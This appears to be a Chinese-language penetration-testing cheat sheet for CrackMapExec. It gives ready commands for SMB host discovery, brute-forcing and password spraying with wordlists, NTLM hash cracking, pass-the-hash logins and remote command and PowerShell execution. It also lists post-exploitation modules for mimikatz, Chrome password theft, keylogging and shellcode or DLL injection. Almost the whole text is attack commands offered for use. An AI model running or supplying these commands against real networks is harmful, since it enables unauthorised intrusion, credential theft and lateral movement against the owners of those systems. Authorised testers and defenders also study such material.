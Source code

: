   #### 信息收集
	返回活动主机
	>crackmapexec smb 192.168.0.0/24
![image](img/252.png)
  #### 爆破
	支持协议ssh,smb,winrm,mssql,http
	爆破smb协议，两台机器，一个用户名多个密码
	>crackmapexec smb 192.168.0.98 192.168.0.55 -u username1 -p password1 password2
	>crackmapexec smb 192.168.0.0/24 -d zone.com -u y -p 'password' --shares
![image](img/253.png)

	密码喷射
	>crackmapexec <protocol> <target(s)> -u username1 username2 -p password1
	指定字典
	>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -p /tmp/pass.txt
	Hash爆破
	>crackmapexec <protocol> <target(s)> -u /tmp/user.txt -H /tmp/ntlm.txt
  #### 可用模块
	日志的保存位置
	~/.cme/logs
	查看协议可用后续模块
	>crackmapexec smb -L
![image](img/254.png)

	常用的模块
	Get-ComputerDetails获取计算机信息
	Bloodhound 执行一个BloodHound脚本获取信息
	empire_exec 与empire交互
	enum_avproducts 列举AV产品
	enum_chrome 获取目标chrome中保存的密码
	get_keystrokes 键盘记录
	get_netdomaincontroller 列出所有域控制器
	get_netrdpsession 列出活动的RDP会话
	gpp_autologin 从域控中registry.xml查找自动登录的账户密码
	gpp_password 组策略凭据中返回GPP密码
	invoke_sessiongopher 保存putty,winscp,filezilla,superputty rdp的session
	invoke_vnc 注入一个vnc客户端到内存
	met_inject 与msf交互
	mimikatz 调用mimikatz模块
	mimikatz_enum_chrome 使用mimikatz解密chrome保存的密码
	mimikatz_enum_vault_creds 解密windows凭据管理器中保存的密码
	mimikittenz 执行咪咪猫(windows密码获取软件)
	multirdp 允许多用户登录RDP
	netripper 通过API hooking截取平常
	pe_inject DLL/EXE注入
	rdp 开启或关闭RDP
	shellcode_inject 注入shellcode
	tokens 列举可用token
	uac 查看UAC是否开启
	wdigest 开启或关闭wdigest
	web_delivery 执行exploit/multi/script/web_delivery模块
	查看模块的选项
	>crackmapexec smb -M module --options
![image](img/255.png)

	使用方式
	>crackmapexec smb <target(s)> -u user -p 'P@ssw0rd' -M module -o 参数=值
![image](img/256.png)
  #### PTH
	>crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
	>crackmapexec smb <target(s)> -u username -H NTHASH
  #### 执行命令
	>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -x 'command'
![image](img/257.png)

	-X执行powershell命令
	>crackmapexec smb 192.168.0.98 -u y -p 'qwe12323' -X 'POWESHELL'